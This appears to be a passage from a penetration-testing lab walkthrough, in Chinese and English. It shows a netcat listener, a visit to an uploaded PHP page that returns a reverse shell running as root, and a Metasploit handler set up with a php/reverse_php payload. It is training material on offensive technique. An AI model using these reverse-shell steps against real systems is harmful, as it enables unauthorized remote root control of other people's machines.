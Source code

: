 ```
└─# nc -lvp 443              
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443

```

访问：

```
http://192.168.248.148/r443.php
```

```
─# nc -lvp 443              
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 192.168.248.148.
Ncat: Connection from 192.168.248.148:55260.
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
^C

```

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload php/reverse_php
payload => php/reverse_php
msf6 exploit(multi/handler) > set lhost 192.168.248.148
lhost => 192.168.248.148
msf6 exploit(multi/handler) > set lport 443
lport => 443
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.248.148:443
```

再次访问：

```
http://192.168.248.148/r443.php
```

Let's move the session to the background for a while by typing `Ctrl+z`

![ctrl-z-move-to-background.png](/img/in-post/ine/ctrl-z-move-to-background.png)
